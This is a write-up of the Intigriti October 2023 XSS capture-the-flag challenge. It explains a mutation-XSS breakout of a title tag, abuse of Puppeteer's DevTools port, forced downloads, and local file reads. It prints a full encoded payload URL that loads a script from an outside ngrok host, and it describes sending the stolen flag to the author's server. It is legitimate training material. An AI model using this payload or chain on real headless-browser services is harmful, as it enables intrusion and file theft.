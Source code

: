 # Intigriti October 2023 XSS Challenge Writeup

## Introduction

Hey fellow hackers! 🎩💻 Ready for a wild ride into the world of XSS and hacking? In this [Intigriti's October XSS challenge](https://challenge-1023.intigriti.io/) writeup, we'll navigate through twists, turns, and a bunch of cat-related questions to reveal the precious flag! 🐱🚩 

<img alt='are you ready' src=images/are-you-ready.png style='height:300px; width:300px;'/> 

Let's dive into the solution!

## The Challenge Landscape (TL;DR) 

This challenge introduces the concept of mutation XSS. The participant must inject a script into the vulnerable endpoint, initiating a chain of events that breaks out of the `<title>` tag in the browser instance of Puppeteer. The entry point was this specific endpoint: [https://challenge-1023.intigriti.io/api/report?url=/](https://challenge-1023.intigriti.io/api/report?url=/), which allowed entering a custom-encoded payload to target the browser instance. With the absence of SOP and specific security flags in check, it was possible to make the browser download and navigate to a hosted script that triggered the extraction of the remote `flag.txt` file upon access.
## Navigating the Clues: Hints from the Intigriti Twitter

Now that you've stepped into the challenge landscape, let's shed light on the hints generously shared by Intigriti through their Twitter account.

### Hint 1: Title Parsing Discrepancy

The journey begins with a text-based nugget:

> "Have you noticed any difference in title parsing between client/server?"
 
Oh, the intrigue! This hint whispered about a clandestine affair between the client and server, specifically in title parsing.

![mxss](images/mxss.png)

**Decoding the Hint:**
- **Client vs Server Parsing:** The title parsing (`<%- title %>`) on the server in `header.ejs` rendered a dynamic HTML version when fed with broken input. Uncover the parsing discrepancy, and you're on the brink of mutation XSS ([mXSS](https://cure53.de/fp170.pdf)) enlightenment.
- **Key Takeaway:** Despite DOMPurify filtering malicious input, you could have sent valid but broken HTML to the server and made the recipient browser fix it. By breaking out of the `</title>` tag, it was possible to inject scripts into the page.

Now we can inject and control anything from the browser! Can't we?

### Hint 2: Chrome Developer Protocol (CDP) Link

They said, throwing us a link to the Chrome Developer Protocol (CDP):

> "Let's keep this one short and sweet..."
 
Sweet indeed! A seemingly innocent link that opened the door to a rabbit hole of possibilities!! 😱

![CDP screenshot](images/cdp.png)

**Decoding the Hint:**
- **CDP Exploration:** The link led us to the Chrome Developer Protocol, where understanding the APIs and how to communicate with a running Chrome seemed possible.
- **Key Takeaway:** The CDP was the key to unlocking the door. Here, you had to understand that the challenge structure made internal communication to the Chrome instance impossible, be it through WebSockets or devtools-on-devtools. A few useful things were the CDP's endpoints like `GET /json` (to check for port) and `PUT /json/new?${url}` (to open a file).

But what do we do with that information? Here comes the last hint!

### Hint 3: Meme - "Manual download" vs "Auto download"

> We'd like to apologize for the downtime, so please take this free hint 💜
> 
And then, a meme! A picture is worth a thousand words, they say. In the upper part, a man says "NO" to "Manual download," and in the bottom part, a resounding "YES" to "Auto download."

![Auto download meme](images/manual-vs-auto-download.png)

**Decoding the Hint:**
- **Auto-Download Revelation:** The meme hinted at the browser's ability to auto-download specific files upon opening. The trick? Serve malicious files with the header `Content-Disposition: attachment` to make the Chromium browser download them automatically regardless of the extension.
- **Key Takeaway:** Download a malicious HTML file, open it with `file://` protocol (using the second hint's discovery), and bingo! A fetch request from it could now breach the Docker instance's filesystem.

It's time to glue everything together!

## The Scripts

Get ready for the magic! Our scripts are the key to the victory flag.

### Entrypoint - [src/page_404.js](src/page_404.js)

The party starts with `page_404.js`, orchestrating the exploit dance. It cracks Puppeteer's port, initiating the auto-download of `fetcher.html` for local file extraction.

### Fetcher - [src/fetcher.html](src/fetcher.html)

Meet the fetcher, the hero fetching the flag and sending it to our local server. This script plays a crucial role in the exploit. `fetcher.html` grabs the flag and sends it to our server. A simple script with a grand mission!

### Server - [src/index.js](src/index.js)

Last but not least, our server script (`index.js`). It runs the show, coordinating the exploit and ensuring a smooth operation. Keep the server humming during the payload.

There you have it, the dynamic trio of scripts that sets up the payload! 🚀

## Decoding the Payload

Now, let's briefly dissect the exploit's payload that requires no user interaction. 

### One possible Payload

This payload targets the endpoint `https://challenge-1023.intigriti.io/api/report?url=` and utilizes two main parameters: `src` and `startPort`. 

```plaintext
https://challenge-1023.intigriti.io/api/report?url=/<svg><b id="<%2526%2523x2f%253btitle>foo<script src='https:%2526%2523x2f%253b%2526%2523x2f%253ba9b1-191-45-70-141.ngrok-free.app%2526%2523x2f%253b404.js'><%2526%2523x2f%253bscript>">?startPort=40000
```
Let's break it down:

- Path and Parameters: It begins with `<svg><b id="`, introducing a closing `</title>` tag. For the payload to work, it was needed to encode any slashes present in it by HTML encoding `/` -> `&#x2f;` -> URL encoding twice -> `%2526%2523x2f%253b`.
- Injected Script: The payload injects a script with a src attribute pointing to a remote server (https://a9b1-191-45-70-141.ngrok-free.app) hosting the 404.js script. This script is our entry point into the puppeteer exploit.
- Query Parameter startPort: The payload introduces the query parameter startPort=40000 (typically ranging between 45000 and 35000), serving as an initial estimation of the puppeteer port. The exploit involves an iterative process, maybe requiring multiple attempts to identify the correct port and extract the flag.

### Streamlining Port Extraction

I've crafted an iterative script to bring a touch of automation to the port extraction. Simply hit up `/solve`, and the script autonomously tests various ports to pinpoint the right one.

> 💡 Hint: Execute `npm i && npm start` after cloning the code to observe the script server in action.

For an in-depth dive into the magic behind automated port-guessing, check out the code documentation.

### The Flag

And as the grand finale, the flag awaits: **INTIGRITI{Pupp3t3eR_wIth0ut_S0P_LFI}**

## Conclusion 
Man, what a ride! We plunged deep into this challenge, messing with mutation XSS and puppeteer tricks. We threw in scripts, set off auto-downloads, and played around with the CDP. It's more than just hunting for a flag; it's been a crazy journey. Every clue, stumble, and "aha" moment brought us together. It's not just about the swag; it's the thrill, the joy of beating challenges and vibing with the Intigriti community. ❤️🚀

![Thank you](images/thank-you.png)

## References

1. [Intigriti October XSS Challenge](https://challenge-1023.intigriti.io/)
2. [mXSS Attacks](https://cure53.de/fp170.pdf)
2. [Chrome Developer Protocol](https://chromedevtools.github.io/devtools-protocol/)
3. [Intigriti Discord](https://discord.gg/intigriti)
4. [Intigriti Twitter](https://twitter.com/intigriti)

